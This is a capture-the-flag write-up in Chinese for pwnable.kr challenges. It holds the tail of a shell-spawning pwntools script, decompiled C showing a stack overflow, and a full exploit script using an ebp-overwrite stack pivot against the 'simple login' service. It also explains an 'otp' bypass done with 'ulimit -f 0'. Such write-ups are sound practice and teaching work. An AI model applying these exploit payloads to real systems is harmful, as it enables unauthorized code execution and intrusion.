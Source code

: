 ```
#attach(p)
p.send("/bin/sh\x00")
p.interactive()
```

## simple login

```
_BOOL4 __cdecl auth(int decode_length)
{
  char v2; // [esp+14h] [ebp-14h]
  char *s2; // [esp+1Ch] [ebp-Ch]
  int v4; // [esp+20h] [ebp-8h]

  memcpy(&v4, &input, decode_length);           // 栈溢出,最多溢出4个字节,覆盖ebp
  s2 = (char *)calc_md5(&v2, 12);
  printf("hash : %s\n", s2);
  return strcmp("f87cd601aa7fedca99018a8be88eda34", s2) == 0;
}
```

auth函数存在栈溢出，最多溢出4个字节，只能覆盖ebp，input在bss中。

leave    => mov esb ebp; pop ebp;

ret         => pop rip; jump rip;

通过修改ebp指向bss段，这样esp将指向bss段，从而可以控制rip。

```
from pwn import *
import base64

debug = int(raw_input("is_debug:"))

if debug:
    p = process("./login")
else:
    p = remote("pwnable.kr", 9003)

p.recvuntil(":")
payload = "a" * 4 + p32(0x08049284) + p32(0x0811EB40)
payload = base64.b64encode(payload)
p.sendline(payload)

p.interactive()
```

## otp

通过ulimit限制了进程可以创建文件的最大值，只要限制为0，那么最后的密码一定为空，于是空密码通过，在写脚本时还需要注意的点就是把错误输出重定向到标准输出中。

```
ulimit -f 0
```
